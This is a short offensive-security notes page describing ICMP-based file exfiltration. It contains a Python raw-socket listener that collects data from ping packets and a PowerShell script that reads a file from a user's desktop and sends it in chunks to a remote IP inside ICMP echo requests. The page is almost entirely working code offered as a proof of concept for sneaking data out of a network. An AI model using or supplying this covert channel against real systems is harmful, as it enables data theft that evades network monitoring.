 # ICMP

## Extracting a File

By sending ping packets from our server, with the start marked by `^BOF` and the end marked by `EOF` , we can set up an icmplistener as below which decodes the data packets and then writes them to our file.  This isn't as universal as metasploit's listener, but it servers as a quick and dirty poc if all you're looking to extract is a single file.

```py
import socket

def listen():
    s = socket.socket(socket.AF_INET,socket.SOCK_RAW,socket.IPPROTO_ICMP)
    s.setsockopt(socket.SOL_IP, socket.IP_HDRINCL, 1)
    with open('icmpoutput.txt','wb') as catch:   
        while 1:
            data, addr = s.recvfrom(1508)
            print "Packet from %r: %r" % (addr,data)
            if '^BOF' in data:
                continue
            if '^EOF' in data:
                catch.write(data[-1472:-4])
            catch.write(data[-1472:])

listen()
```

A good option for recent Windows based systems is a modified [Powershell-ICMP-Sender](https://github.com/api0cradle/Powershell-ICMP).

```powershell
    $IPAddress = "192.168.0.1"
    $ICMPClient = New-Object System.Net.NetworkInformation.Ping
    $PingOptions = New-Object System.Net.NetworkInformation.PingOptions
    $PingOptions.DontFragment = $true
    #$PingOptions.Ttl = 10

    # Must be divided into 1472 chunks
    [int]$bufSize = 1472
    $inFile = "C:\Users\bob\Desktop\backfile"


    $stream = [System.IO.File]::OpenRead($inFile)
    $chunkNum = 0
    $TotalChunks = [math]::floor($stream.Length / 1472)
    $barr = New-Object byte[] $bufSize

    # Start of Transfer
    $sendbytes = ([text.encoding]::ASCII).GetBytes("^BOFbackfile")
    $ICMPClient.Send($IPAddress,10, $sendbytes, $PingOptions) | Out-Null


    while ($bytesRead = $stream.Read($barr, 0, $bufsize)) {
        $ICMPClient.Send($IPAddress,10, $barr, $PingOptions) | Out-Null
        $ICMPClient.PingCompleted

        #Missing check if transfer is okay, added sleep.
        sleep 2
        #$ICMPClient.SendAsync($IPAddress,60 * 1000, $barr, $PingOptions) | Out-Null
        Write-Output "Done with $chunkNum out of $TotalChunks"
        $chunkNum += 1
    }

    # End the transfer
    $sendbytes = ([text.encoding]::ASCII).GetBytes("^EOF")
    $ICMPClient.Send($IPAddress,10, $sendbytes, $PingOptions) | Out-Null
    Write-Output "File Transfered"
```



